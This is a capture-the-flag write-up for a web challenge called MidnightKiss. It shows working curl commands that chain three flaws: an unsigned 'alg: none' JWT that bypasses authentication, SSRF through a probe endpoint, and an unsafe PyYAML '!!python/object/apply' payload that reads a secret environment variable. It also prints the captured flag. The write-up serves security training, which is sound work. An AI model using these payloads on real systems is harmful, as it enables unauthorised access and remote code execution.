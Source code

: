 # MidnightKiss Writeup

## Challenge Information

- **Title:** MidnightKiss
- **Description:** A network management service available for authenticated admin. The flag is in env: `FLAG`
- **Service:** HTTP API with JWT authentication
- **URL:** http://68.219.177.187:8012

## Reconnaissance

### Initial Discovery

The service exposes two main endpoints:

- `/api/probe` - Requires authentication via Bearer token
- `/internal/config` - Restricted to "internal access only"

### API Endpoints Analysis

```bash
# Root endpoint
curl http://68.219.177.187:8012/
# Response: {"message":"Welcome to Network Management Service. Admin access required for advanced features."}

# OpenAPI specification
curl http://68.219.177.187:8012/openapi.json
```

From the OpenAPI spec, we identified:

- `/api/probe` accepts `ProbeRequest` with `target`, `method`, and `data` fields
- `/internal/config` accepts `YamlConfig` with a `config` string
- JWT Bearer authentication required for `/api/probe`

## Vulnerability Analysis

### 1. JWT Authentication Bypass

The service was vulnerable to JWT algorithm confusion attack:

```bash
# Successful authentication bypass
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
```

**Vulnerability:** The JWT implementation accepted tokens with `alg: none`, allowing unsigned tokens to be treated as valid.

### 2. Server-Side Request Forgery (SSRF)

The `/api/probe` endpoint allowed making HTTP requests to any target, including internal services:

```bash
# SSRF to internal endpoint
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
```

**Vulnerability:** No restrictions on target URLs, allowing access to internal endpoints.

### 3. YAML Deserialization Attack

The `/internal/config` endpoint processed YAML configuration unsafely:

```yaml
!!python/object/apply:os.getenv [FLAG]
```

**Vulnerability:** The service used unsafe YAML parsing (`yaml.load()` instead of `yaml.safe_load()`), enabling arbitrary code execution.

## Exploitation Chain

### Step 1: Bypass Authentication

First, let's analyze the JWT token structure:

```bash
# Decode JWT header
echo 'eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0' | base64 -d
# Output: {"typ":"JWT","alg":"none"}

# Decode JWT payload
echo 'eyJyb2xlIjoiYWRtaW4ifQ' | base64 -d
# Output: {"role":"admin"}

# Create unsigned JWT with alg: none
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."
```

Test the authentication bypass:

```bash
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/", "method":"GET"}'
# Response: {"result":"{\"message\":\"Welcome to Network Management Service. Admin access required for advanced features.\"}"}
```

### Step 2: Leverage SSRF for Internal Access

First, let's test accessing the internal config endpoint:

```bash
# Try GET method first (fails)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"GET"}'
# Response: {"result":"{\"detail\":\"Method Not Allowed\"}"}

# Try POST method without data (shows required fields)
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ." \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST"}'
# Response: {"result":"{\"detail\":[{\"type\":\"missing\",\"loc\":[\"body\"],\"msg\":\"Field required\",\"input\":null}]}"}
```

### Step 3: Execute YAML Deserialization Payload

Now we can execute the YAML deserialization attack to retrieve the flag:

```bash
# Set the JWT token variable
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

# Execute the final payload
curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Success!** The response contains the flag:
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

The final payload chain:

1. **JWT Bypass:** `alg: none` token with admin role
2. **SSRF:** Access `internal/config` via localhost  
3. **RCE:** YAML deserialization to execute `os.getenv("FLAG")`

## Flag

```
SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}
```

## Complete Exploit Command

```bash
# Final working exploit
JWT_TOKEN="eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJyb2xlIjoiYWRtaW4ifQ."

curl -X POST http://68.219.177.187:8012/api/probe \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer $JWT_TOKEN" \
  -d '{"target":"http://localhost:8012/internal/config", "method":"POST", "data": {"config":"!!python/object/apply:os.getenv [FLAG]"}}'
```

**Response:**
```json
{"result":"{\"message\":\"Config applied\",\"loaded\":\"SecurinetsENIT{58cc662ea042cfc6d0cd6f8a04442a6a}\"}"}
```

## Timeline

1. Discovered JWT authentication bypass using `alg: none`
2. Identified SSRF vulnerability in `/api/probe` endpoint
3. Found unsafe YAML deserialization in `/internal/config`
4. Chained vulnerabilities to achieve remote code execution
5. Retrieved flag from environment variables